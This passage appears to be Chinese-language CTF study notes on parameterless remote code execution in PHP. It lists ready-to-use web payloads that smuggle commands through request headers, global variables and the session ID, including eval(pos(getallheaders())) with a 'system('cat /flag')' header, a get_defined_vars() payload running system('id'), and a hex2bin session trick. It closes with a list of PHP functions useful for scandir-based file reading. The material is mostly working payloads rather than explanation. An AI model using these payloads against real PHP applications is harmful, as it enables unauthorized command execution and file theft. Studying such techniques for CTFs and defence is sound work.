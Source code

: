 `getallheaders()`: 获取所有的 HTTP 请求标头，显示顺序是和发送的顺序相反的

`apache_request_headers()`

##### exp：利用请求头进行 RCE

抓包，在请求头中添加最后一行（或者修改最后一行）：`flag: system('cat /flag')`;

`?code=eval(pos(getallheaders()));`

#### 利用全局变量进行 RCE（php5/7）

`get_defined_vars()`: 返回所有已定义变量的数组
返回数组顺序为 GET->POST->COOKIE->SERVER->ENV->FILES->REQUEST->GLOBALS

##### exp：利用全局变量进行 RCE

`?code=eval(end(pos(get_defined_vars())));&cmd=system('id');`

`?code=eval(system(key(pos(get_defined_vars()))));&cat${IFS}/flag=1;`

#### 利用 session（php5）

##### exp1

将 PHPSESSID 改为`./flag`

`?code=show_source(session_id(session_start()));`

即可读取 flag 文件

##### exp2

使用`eval()`
PHPSESSID 改为`phpinfo();`
无法直接执行，需要先把命令转成 16 进制写入 PHPSSID
再是使用`hex2bin()`函数转换成二进制数，用 eval 执行

`?code=eval(hex2bin(session_id(session_start())));`

#### 使用 scandir() 进行文件读取

##### 函数

- `scandir(dir)`: 返回一个包含有指定路径中的文件和目录的数组
- `getcwd()`: 返回当前工作目录
- `chdir(dir)`: 改变当前工作目录
- `current(array)`: 返回数组中的当前元素的值（第一个）
- `next(array)`: 返回数组中当前指针指向的下一个元素的值，并将指针向后移动一位
- `array_reverse(array)`: 返回一个单元顺序相反的数组
- `array_flip(array)`: 交换数组中的键和值
- `array_rand(array)`: 从数组中随机取出一个或多个单元
- `strrev(string)`: 反转字符串
- `crypt(string)`: 单向加密字符串
- `hebrevc(string)`: 将希伯来文本从右往左转换为从左往右
- `localeconv()`: 可以输出一个第一项为"."的数组
- `dirname(path)`: 返回路径中的目录部分（去掉路径中的最后一个文件名或目录）
